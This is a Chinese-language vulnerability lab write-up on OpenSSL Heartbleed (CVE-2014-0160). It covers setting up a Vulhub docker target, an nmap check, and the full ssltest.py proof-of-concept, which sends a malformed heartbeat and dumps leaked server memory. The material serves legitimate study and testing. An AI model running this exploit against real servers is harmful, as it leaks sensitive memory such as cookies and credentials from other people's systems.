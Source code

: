 # OpenSSL 心脏出血漏洞 CVE-2014-0160

## 漏洞描述

在OpenSSL1.0.1版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于ssl/dl_both.c文件中。OpenSSL Heartbleed模块存在一个BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据，会导致memcpy把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。

心脏出血是一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。

参考链接：

- https://heartbleed.com/
- https://filippo.io/Heartbleed

## 环境搭建

Vulhub运行如下命令启动一个使用了OpenSSL 1.0.1c的Nginx服务器：

```
docker-compose up -d
```

环境启动后，访问`https://your-ip`即可查看到hello页面。

![image-20220224095222840](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202240952891.png)

## 漏洞复现

通过Nmap进行漏洞检测：

```shell
nmap -sV -p 443 --script ssl-heartbleed.nse your-ip
```

![image-20220224102304171](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241023370.png)

Python运行[ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/heartbleed/ssltest.py)，拿到敏感数据（可能包含Cookie）。

![image-20220224104055810](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241040993.png)

## 漏洞POC

ssltest.py：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import binascii
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return binascii.unhexlify(x.replace(' ', '').replace('\n', ''))

hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s: bytes):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join((chr(c) if 32 <= c <= 126 else '.' )for c in lin)
        print('  %04x: %-48s %s' % (b, hxdat, pdat))

    print("")

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print('Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print('Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print(' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print('No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print('Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print('WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print('Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print('Received alert:')
            hexdump(pay)
            print('Server returned error, likely not vulnerable')
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print('Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print('Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print('Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print('Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

